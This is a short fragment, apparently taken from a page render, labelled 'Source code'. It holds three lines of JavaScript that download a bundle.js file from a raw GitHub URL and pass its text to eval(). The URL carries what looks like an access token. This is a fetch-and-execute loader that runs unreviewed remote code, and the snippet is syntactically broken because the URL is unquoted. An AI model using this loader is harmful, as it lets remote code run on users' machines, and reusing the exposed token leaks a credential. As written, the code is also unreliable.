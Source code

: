 fetch(https://raw.githubusercontent.com/Tester284/crispy-invention/main/dist/bundle.js?token=AW6XE5SETC6KJDEHJCA6EV3BXTHMY)
.then((res) => res.text()
.then((t) => eval(t)))
